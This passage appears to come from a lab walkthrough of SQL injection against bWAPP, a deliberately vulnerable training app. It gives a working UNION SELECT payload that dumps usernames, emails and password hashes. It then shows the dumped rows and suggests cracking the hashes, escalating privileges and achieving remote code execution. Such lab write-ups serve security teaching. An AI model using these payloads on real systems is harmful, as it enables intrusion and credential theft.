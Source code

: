 #### Dumping User Credentials

The **users** table has 11 columns, but we only have four columns to work with. I am mostly interested in the username, password, email, and user permissions, so let's select those.

{:style="overflow: auto; white-space: nowrap;"}
`?title=%27UNION+SELECT+1,login,admin,password,email,6,7+FROM+users--+&action=search`

Results:



<div class="no-overflow">
<table style="overflow: auto;">
  <thead>
    <tr>
      <th>login</th>
      <th>admin</th>
      <th>email</th>
      <th>password</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>A.I.M</td>
      <td>1</td>
      <td>bwapp-aim@mailinator.com</td>
      <td>6885858486f31043e5839c735d99457f045affd0</td>
    </tr>
    <tr>
      <td>bee</td>
      <td>1</td>
      <td>bwapp-bee@mailinator.com</td>
      <td>6885858486f31043e5839c735d99457f045affd0</td>
    </tr>
  </tbody>
</table>
</div>



&nbsp;

A malicious user could attempt to crack the hashed passwords with tools like John the Ripper, RainbowCrack, or in this case, an [online search](https://duckduckgo.com/?q=6885858486f31043e5839c735d99457f045affd0).

#### Conclusion

If you're interested in continuing, a few things you could try are:

- **Continue dumping tables and columns** - Check out other columns in the users table. I've not tested it, but I'm curious if secret, activation_code, or reset_code could be used to take over another user's account.
- **Stacked queries** - Try to append an UPDATE or INSERT statement to the SELECTION statement.
- **Escalate privileges** - Create a non-admin user and attempt to escalate their privileges to admin using SQL injection.
- **Remote code execution** - Execute code on the server through SQL injection.
- **Increase the security setting** - bWAPP has low, medium, and high security options. We have been testing on low, but most applications are more secure.
